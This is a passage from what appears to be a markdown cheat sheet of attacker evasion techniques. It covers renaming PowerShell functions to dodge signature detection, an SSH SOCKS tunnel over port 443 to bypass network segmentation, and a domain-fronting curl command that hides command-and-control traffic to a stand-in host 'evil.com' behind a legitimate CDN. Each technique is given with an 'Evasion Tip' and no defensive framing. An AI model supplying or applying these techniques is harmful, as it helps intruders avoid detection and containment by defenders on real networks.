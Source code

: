 - **Signature Avoidance**:
  - Modify known tools to avoid signature detection
  - Use uncommon techniques rather than well-known ones
  - **Example (Modifying PowerShell Scripts)**:
    ```powershell
    # Instead of using known function names
    function Get-DomainUser { ... }
    
    # Use alternative names
    function Find-EmployeeRecord { ... }
    ```
  - **Evasion Tip**: Many detection systems rely on signatures of known malicious tools and techniques.

## 3. Containment Evasion

- **Minimal Footprint Communication**:
  - Use existing legitimate channels when possible
  - Minimize the number of connections
  - **Example**:
    ```bash
    # Instead of establishing new connections
    # Piggyback on existing ones when possible
    # Use infrequent, short communications
    ```
  - **Evasion Tip**: Fewer connections mean fewer opportunities for detection and containment.

- **Network Segmentation Bypass**:
  - Identify dual-homed hosts
  - Use protocol tunneling through allowed services
  - **Example**:
    ```bash
    # SSH tunneling through allowed ports
    ssh -D 8080 user@pivot_host -p 443
    # Then configure tools to use SOCKS proxy on localhost:8080
    ```
  - **Evasion Tip**: Understanding network topology helps identify paths around segmentation.

- **Avoiding Network Indicators**:
  - Use legitimate domains as proxies
  - Blend C2 traffic with normal business traffic
  - **Example (Domain Fronting)**:
    ```bash
    # Use a high-reputation domain as a front
    curl -s -H "Host: evil.com" https://legitimate-cdn.com/
    ```
  - **Evasion Tip**: Traffic to legitimate domains is less likely to be blocked.
